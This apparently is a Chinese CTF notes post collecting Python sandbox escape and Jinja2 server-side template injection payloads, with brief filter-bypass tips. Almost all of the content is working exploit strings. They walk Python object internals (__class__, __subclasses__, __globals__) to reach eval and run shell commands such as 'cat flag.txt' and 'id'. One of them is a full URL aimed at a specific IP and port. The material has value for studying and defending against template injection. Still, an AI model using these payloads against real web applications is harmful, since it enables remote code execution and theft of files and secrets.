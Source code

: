 ```yaml
---
title: python沙箱逃逸绕过以及exp收集
date: 2019-09-10 00:00:00
categories:
- CTF/Web
tags: python沙箱逃逸
---
```


留坑

```
os
sys
'
d
[
]

array[0]
array.pop(0)

__getitem__(1)

. 可替换为 getattr()
_ 可替换为 dir[0][0][0]


```

http://152.136.210.141:21804/render?data={{request%7Cattr(request.args.get(%22a%22))%7Cattr(request.args.get(%22b%22))%7Cattr(request.args.get(%22c%22))%7Cattr(request.args.get(%22e%22))()%7Cattr(request.args.get(%22f%22))(476)%7Cattr(request.args.get(%22g%22))%7Cattr(request.args.get(%22h%22))%7Cattr(request.args.get(%22i%22))(request.args.get(%22j%22))%7Cattr(request.args.get(%22m%22))(request.args.get(%22n%22))(request.args.get(%22p%22))}}&a=__class__&b=__class__&c=__base__&e=__subclasses__&f=__getitem__&g=__init__&h=__globals__&i=__getitem__&j=__builtins__&m=__getitem__&n=eval&p=__import__(%22os%22).popen(%22cat%20flag.txt%22).read()


```python

http://152.136.210.141:21804/render?data={{request%7Cattr(request.args.get(%22a%22))%7Cattr(request.args.get(%22b%22))%7Cattr(request.args.get(%22c%22))%7Cattr(request.args.get(%22e%22))()%7Cattr(request.args.get(%22f%22))(476)%7Cattr(request.args.get(%22g%22))%7Cattr(request.args.get(%22h%22))%7Cattr(request.args.get(%22i%22))(request.args.get(%22j%22))%7Cattr(request.args.get(%22m%22))(request.args.get(%22n%22))(request.args.get(%22p%22))}}&a=__class__&b=__class__&c=__base__&e=__subclasses__&f=__getitem__&g=__init__&h=__globals__&i=__getitem__&j=__builtins__&m=__getitem__&n=eval&p=__import__(%22os%22).popen(%22cat%20flag.txt%22).read()


http://152.136.210.141:21804/render?data={{request|attr(request.args.get("a"))|attr(request.args.get("b"))|attr(request.args.get("c"))|attr(request.args.get("e"))()|attr(request.args.get("f"))(476)|attr(request.args.get("g"))|attr(request.args.get("h"))|attr(request.args.get("i"))(request.args.get("j"))|attr(request.args.get("m"))(request.args.get("n"))(request.args.get("p"))}}&a=__class__&b=__class__&c=__base__&e=__subclasses__&f=__getitem__&g=__init__&h=__globals__&i=__getitem__&j=__builtins__&m=__getitem__&n=eval&p=__import__("os").popen("cat flag.txt").read()


{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read



{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='ImmutableDictMixin' %}{{ c.__hash__.__globals__['__builtins__'].eval('__import__("os").popen("id").read()') }}{% endif %}{% endfor %}
```